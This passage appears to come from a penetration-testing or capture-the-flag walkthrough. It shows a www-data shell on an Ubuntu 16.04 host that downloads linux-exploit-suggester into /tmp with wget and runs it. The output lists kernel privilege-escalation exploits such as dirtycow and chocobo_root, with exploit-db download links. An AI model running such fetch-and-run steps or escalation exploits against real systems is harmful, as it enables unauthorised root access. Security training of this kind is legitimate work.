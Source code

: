 https://github.com/mzet-/linux-exploit-suggester

```
ww-data@ubuntu:/tmp$wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
<ontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ ls
ls
VMwareDnD
linux-exploit-suggester.sh
systemd-private-b51e825322ca410c92dd950e634e8b01-systemd-timesyncd.service-uwpQ2X
vmware-root
www-data@ubuntu:/tmp$ bash linux-exploit-suggester.sh
bash linux-exploit-suggester.sh
Available information:
Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 16.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS
Searching among:
74 kernel space exploits
45 user space exploits
Possible Exploits:
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2016-5195] dirtycow 2
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04{kernel:4.4.0-21-generic} ]
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
[+] [CVE-2017-16995] eBPF_verifier
Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
Exposure: highly probable
Tags:debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
Download URL: https://www.exploit-db.com/download/45010
Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
[+] [CVE-2016-8655] chocobo_root
Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
Exposure: highly probable
Tags:[ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
Download URL: https://www.exploit-db.com/download/40871
Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled
[+] [CVE-2016-5195] dirtycow
Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
Download URL: https://www.exploit-db.com/download/40611
```